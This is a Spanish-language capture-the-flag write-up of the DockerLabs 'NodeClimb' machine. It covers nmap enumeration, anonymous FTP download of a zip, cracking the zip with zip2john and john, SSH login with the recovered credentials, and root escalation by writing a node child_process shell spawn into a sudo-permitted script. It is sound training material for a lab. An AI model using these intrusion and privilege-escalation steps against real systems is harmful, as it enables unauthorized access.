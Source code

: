 ```yaml
---
layout: post
title: NodeClimb
date: 2024.07.05
categories: [dockerlabs, ctf, linux, facil]
---
```


![image](/assets/images/node/node.png)

Estamos ante un docker que contiene una distribución Linux. Es de nivel fácil y es de la plataforma [dockerlabs](https://dockerlabs.es/).

# Enumeración

Ponemos el docker en marcha con el `auto_deploy.sh` que trae el zip. Cuando termina de cargar nos indica la dirección IP de nuestra víctima, en nuestro caso es `172.17.0.2`.

Empezamos realizando un escaneo de puertos con `nmap`. Hacemos un escaneo silencioso`-sS`, a todos los puertos `-p-`, que nos de detalles del escaneo `-v`, que no haga ping al host `-Pn`, que no haga resolución de DNS `-n` a nuestra máquina victima `172.17.0.2`:

```bash
$ sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```

Vemos que solo tiene los puertos **21** y **22**  abiertos. Vamos a realizar otro escaneo con `nmap` pero esta vez para detectar la versión del servicio que este corriendo, `-sV`, y para ejecutar los scripts por defecto para detectar vulnerabilidades, `-sC`:

```bash
$ sudo nmap -sCV -p21,22 172.17.0.2
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05 09:34 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
```

# Intrusión

Vemos que nos podemos conectar al servidor **ftp** como usuario *anónimo* y que además hay un fichero a nuestro alcance. Entramos como **ftp** y nos lo descargamos:

```bash
$ ftp ftp@172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||8580|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             242 Jul 05 09:34 secretitopicaron.zip
226 Directory send OK.
ftp> get secretitopicaron.zip
local: secretitopicaron.zip remote: secretitopicaron.zip
229 Entering Extended Passive Mode (|||49269|)
150 Opening BINARY mode data connection for secretitopicaron.zip (242 bytes).
100% |******************|   242        1.77 MiB/s    00:00 ETA
226 Transfer complete.
242 bytes received in 00:00 (183.76 KiB/s)
ftp> bye
221 Goodbye.
```

Intentamos descomprimirlo pero vemos que tiene una contraseña. Creamos el hash del fichero zip con **zip2john**: 

```bash
$ zip2john secretitopicaron.zip > zip.hash
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0
```

Y después intentamos sacar la password del fichero zip:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2024-07-05 23:00) 25.00g/s 102400p/s 102400c/s 102400C/s 123456..oooooo
```

En un segundo tenemos la clave, descomprimimos el fichero y la vemos:

```bash
$ cat password.txt 
mario:laKontraseñAmasmalotaHdelbarrioH
```

Nos conectamos al servidor **ssh** como *mario*:

```bash
$ ssh mario@172.17.0.2
mario@172.17.0.2's password: 
Linux 014bc8cff695 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
```

# Escalada de privilegios

Vemos que puede ejecutar como **root**:

```bash
mario@014bc8cff695:~$ sudo -l
Matching Defaults entries for mario on 014bc8cff695:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 014bc8cff695:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Puede ejecutar un script en node que esta vacio en el home de mario. Miramos a ver si hay algo en el historial de bash:

```bash
mario@014bc8cff695:~$ cat .bash_history 
sudo -l
sudo /usr/local/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})' 
/usr/local/bin/node
locate node
apt install locate
exit
sudo -l
/usr/bin/node
sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
exit
sudo -l
ls
exit
ls
whoami
sudo -l
cat script.js 
ls -l
exit

```

Curiosamente nos da una pista de cómo obtener la shell desde node. Añadimos al fichero **script.js** la función para la creación de una shell:

```bash
mario@014bc8cff695:~$ echo 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})' > script.js
```

Y ejecutamos el comando con sudo:

```bash
$ sudo /usr/bin/node /home/mario/script.js
# whoami;hostname;date
root
014bc8cff695
Fri Jul  5 21:14:24 UTC 2024
#
```

Con esto ya seriamos **root** en la máquina.

Un saludo